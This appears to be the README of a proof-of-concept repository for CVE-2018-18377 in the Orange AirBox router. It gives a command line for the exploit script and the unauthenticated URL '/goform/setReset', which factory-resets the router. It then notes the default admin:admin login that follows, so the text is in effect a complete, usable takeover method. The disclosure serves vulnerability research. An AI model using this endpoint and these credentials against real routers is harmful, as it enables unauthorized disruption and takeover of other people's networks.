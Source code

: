 # AirBoxDoom
Proof of Concept of AirBoxDoom Vulnerability.   
CVE-2018-18377          

# How to use      

AirBoxDoom.py         
`python AirBoxDoom.py -ip 192.168.1.1`        
`AirBox resetted to factory settings`

# How it works        

Airbox contains webpage `http://192.168.1.1/goform/setReset` which when entered resets router settings so you can login with default password admin:admin

# Router information        

Router: AirBox
Vendor: Orange
Firmware version: Y858_FL_01.16_04
